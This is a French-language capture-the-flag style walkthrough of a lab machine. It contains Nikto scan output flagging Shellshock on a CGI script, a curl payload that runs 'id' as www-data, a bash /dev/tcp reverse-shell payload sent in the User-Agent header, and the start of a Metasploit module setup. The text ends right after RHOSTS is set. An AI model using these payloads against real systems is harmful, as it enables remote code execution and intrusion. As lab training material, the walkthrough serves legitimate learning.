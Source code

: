 ```
+ Server: Apache/2.4.7 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, GET, HEAD .
+ /cgi-bin/test.cgi: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /admin/: This might be interesting.
+ /backup/: This might be interesting.
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /img/: Directory indexing found.
+ /img/: This might be interesting.
+ /secret/: This might be interesting.
+ /cgi-bin/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /admin/index.html: Admin login page/section found.
+ 8881 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2023-10-09 10:47:05 (GMT-4) (325 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Il trouve un moyen d'injecter des commandes via la vulnérabilité Shellshock
```
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
```
on va test :
```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.189.81/cgi-bin/test.cgi
```
On a bien un résultat !
```
┌──(kali㉿kali)-[~]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.189.81/cgi-bin/test.cgi     

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
On va pouvoir avoir un revshell 

# Revshell
On va donc essaye d'avoir un revshell en exploitant Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/MON-IP 4444 0>&1' http://10.10.189.81/cgi-bin/test.cgi  
```
Il existe aussi un module metasploit qui permet l'exploitation de shellshock très facilement.
```
multi/http/apache_mod_cgi_bash_env_exec
```
Et nous voila avec un revshell :
```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.189.81
RHOSTS => 10.10.189.81
```